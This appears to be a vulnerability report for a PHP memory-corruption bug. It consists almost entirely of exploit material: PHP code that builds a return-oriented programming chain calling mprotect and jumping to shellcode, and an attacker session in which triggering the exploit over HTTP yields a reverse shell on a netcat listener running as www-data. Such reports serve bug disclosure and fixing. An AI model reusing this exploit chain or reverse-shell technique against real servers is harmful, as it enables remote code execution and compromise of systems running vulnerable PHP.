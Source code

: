 ```
echo "[+] building ropchain\n";

// int mprotect(void *addr, size_t len, int prot);

$rop_chain =
	"AAAA" .
        pack('I', $mprotect_addr) /* mprotect */ .
        pack('I', $pop3) /* pop pop pop ret */ .
        pack('I', $addr - 0x18) /* mprotect addr  */ .
        pack('I', 0x1000) /* mprotect len */ .
        pack('I', 0x7) /* mprotect prot */ .
        pack('I', $addr) /* jump to shellcode */ ;


$temp = tmpfile();
// Call to ropchain
fwrite($temp, $rop_chain);
fclose ($temp);
```

Attacker session
```
Call to PHP exploit:
$ lynx http://10.0.3.246/gd4.php
...
$ nc -vlp 31337
Listening on [0.0.0.0] (family 0, port 31337)
Connection from [10.0.3.246] port 31337 [tcp/*] accepted (family 2, sport 44816)
id -a
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```


## Attachments
No attachments
